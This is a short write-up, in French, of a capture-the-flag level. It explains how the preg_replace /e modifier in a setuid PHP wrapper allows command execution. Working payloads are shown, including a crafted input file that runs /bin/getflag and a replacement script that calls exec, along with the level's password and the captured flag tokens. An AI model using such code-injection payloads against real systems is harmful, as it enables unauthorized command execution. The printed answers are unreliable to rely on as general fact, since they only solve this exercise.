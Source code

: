 # LEVEL 06

**LOGIN: level06**

**PASSWORD: viuaaale9huek52boumoomioc**

 ----
 
 
 ```
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Ici j'ai trouvé deux exploits, le premier avec le code php, le deuxieme dans le binaire c: 

#### Premier exploit
``` 
cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```


ARVG2 n'est jamais utilisé. 
La fonction y() ne sert a rien car elle est appelée ici :  `"y(\"\\2\")"` et il n'y a pas de `.` ni de `@`.
Seulement le premier appel à `preg_replace` dans `x()` nous intérrese. 
On peut donc resumer le code comme ceci :
```
function x($y) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "\"\\2\"", $a); return $a; }
$r = x($argv[1]); print $r;
```
L'exploit se trouve dans l'option `e` de `preg_replace`.
*[ e doesn't just execute anything you pass to it. It only executes those parts of the input that match the regex and are then used in the replacement via back references.](https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation)*

```
echo '[x ${`/bin/getflag`} ]' > exploit.txt
chmod 777 exploit.txt
./level06 exploit.txt
Check flag.Here is your token : wiok45aaoguiboiki2tuin6
```

#### Deuxieme exploit

Le binaire `level06` est un code en C. un strace nous montre qu'il appelle le script php : 

`execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 27 vars */]) = 0`

exploit : 
```
rm level06.php
vim level06.php
#!/usr/bin/php
<?php
exec("/bin/getflag > /tmp/exploit");
?>
exit.

./level06 file1 file2
cat /tmp/exploit
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

**TOKEN: wiok45aaoguiboiki2tuin6ub
